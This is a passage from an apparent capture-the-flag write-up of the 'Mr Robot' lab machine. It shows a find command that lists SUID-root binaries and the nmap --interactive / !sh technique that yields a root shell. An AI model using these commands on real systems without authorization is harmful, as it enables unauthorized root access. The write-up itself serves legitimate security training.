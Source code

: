 It also highlights that nmap binary has its SUID bit set, this is another possible privilege escalation vector that is less intrusive than a kernel exploit which poses a risk of crashing the system! So we will try exploit this SUID bit to gain root access.

![Linpeas SUID](/assets/images/vh_mr_robot/mr_robot_priv_esc_linpeas_2.jpg)

The following find command will find all files that have the SUID bit set.
```
find / -user root -perm -4000 -print 2>/dev/null
```

Nmap has the ability to spawn an interactive shell so lets try that to get root access.

* Tip - [GTFOBins](http://gtfobins.github.io/gtfobins/nmap/) is a great resource of a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

Execute the following commands to get root access!
```
nmap --interactive

# Once within nmap execute sh
!sh

# Check your permissions with the id command
id
```

You will notice that the effective user id is set to root: `euid=0(root)`
